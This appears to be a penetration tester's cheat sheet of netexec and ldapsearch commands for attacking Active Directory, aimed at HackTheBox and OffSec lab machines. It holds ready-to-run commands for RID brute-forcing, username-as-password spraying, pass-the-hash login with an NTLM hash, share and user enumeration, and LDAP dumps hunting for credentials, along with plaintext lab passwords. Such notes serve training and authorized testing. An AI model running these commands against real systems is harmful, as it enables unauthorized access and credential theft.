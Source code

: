 Identify valid users with RID bruteforce **this may not work**
```
nxc smb 10.10.11.35 -u '.' -p '' --rid-brute
```

Bruteforce users with the password of their username (ex: admin:admin)
```
netexec smb 10.10.11.236 -u users.txt -p users.txt --no-bruteforce --continue-on-success
```

List users with valid credentials
```
nxc smb 10.10.11.41 -u judith.mader -p judith09 --users
```

Enumerate smb shares with valid credentials
```
netexec smb 10.10.11.236 -u operator -p operator --shares
```

Test login for smb with *hash
```
nxc smb 192.168.120.172 -u Administrator -H 608339ddc8f434ac21945e026887dc36
```

Test login for *mssql* with valid credentials
```
netexec mssql 10.10.11.236 -u operator -p operator
```

Test login for *winrm* with valid credentials
```
netexec winrm 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
```

### ldapsearch 
Get DC info 
```
ldapsearch -x -H ldap://10.10.10.161 -x -s base
```

```
ldapsearch -x -H ldap://10.10.10.161 -x -b 'DC=htb,DC=local' > ldapinfo.txt
```

List users in domain
```
ldapsearch -x -b "dc=htb,dc=local" -H ldap://10.10.10.161 '(ObjectClass=User)' sAMAccountName | grep sAMAccountName | awk '{print $2}'
```

List service accounts in the domain (may miss some from above query)
```
ldapsearch -x -b "dc=htb,dc=local"  -H ldap://10.10.10.161 | grep -i -a 'Service Accounts'
```

Search for objects and hopefully discover creds in descriptions..
```
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.175.122" "(objectclass=*)"
```
